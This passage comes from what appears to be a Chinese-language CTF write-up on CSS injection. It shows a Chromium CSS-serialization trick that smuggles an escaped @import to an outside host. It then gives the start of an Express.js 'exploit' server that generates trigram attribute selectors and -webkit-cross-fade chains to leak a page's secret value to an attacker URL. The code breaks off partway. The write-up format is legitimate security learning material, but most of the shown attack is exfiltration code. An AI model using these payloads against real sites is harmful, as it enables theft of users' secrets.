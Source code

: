 取出 cssText 後會變成：


``` html
<style>
  @font-feature-values 'lol;
  @\0069mport "//exp.com";
  p {}
</style>
```

成功偷渡了 `@import` 進去，接著就可以用常見的方式去把字元 leak 出來了。

說到這個，感覺應該要準備一個可以隨開即用的 CSS injection server，否則每次都要從頭再寫一個有點累。

這次我是直接用上次 [0CTF 2023](https://blog.huli.tw/2023/12/11/0ctf-2023-writeup/) 寫的 trigram，但是有點 buggy，在把字元組回去那邊沒有考慮好，要跑很多次而且運氣好才能得到正解。

在邊嘗試邊修的狀態下弄了一個小時，運氣很好的拿到 flag。

話說根據 Discord 的賽後討論，這 bug 在近期被修掉了：[Properly escape CSS identifiers in serialization.](https://chromium-review.googlesource.com/c/chromium/src/+/5604769)

最後附上完整但不穩定的 exploit：

``` js
const express = require('express')

const app = express()
const port = 5555

let leaks = []
const BASE = 'https://your_server.com'

// prepare payload
let chars = '0123456789abcdef'

let arr = []
for(let a of chars) {
    for(let b of chars) {
        for(let c of chars) {
            let str = a+b+c;
            arr.push(str)
        }
    }
}

let payload1 = ''
let crossPayload1 = 'url("/")'
let payload2 = ''
let crossPayload2 = 'url("/")'
let payload3 = ''
let crossPayload3 = 'url("/")'

const third = Math.floor(arr.length / 3);
const arr1 = arr.slice(0, third); 
const arr2 = arr.slice(third, 2 * third); 
const arr3 = arr.slice(2 * third); 

for(let str of arr1) {
    payload1 += `:host-context(*[secret*="${str}"]){--${str}:url("${BASE}/leak?q=${str}")}\n`
    crossPayload1 = `-webkit-cross-fade(${crossPayload1}, var(--${str}, none), 50%)`
}

for(let str of arr2) {
    payload2 += `:host-context(*[secret*="${str}"]){--${str}:url("${BASE}/leak?q=${str}")}\n`
    crossPayload2 = `-webkit-cross-fade(${crossPayload2}, var(--${str}, none), 50%)`
}
```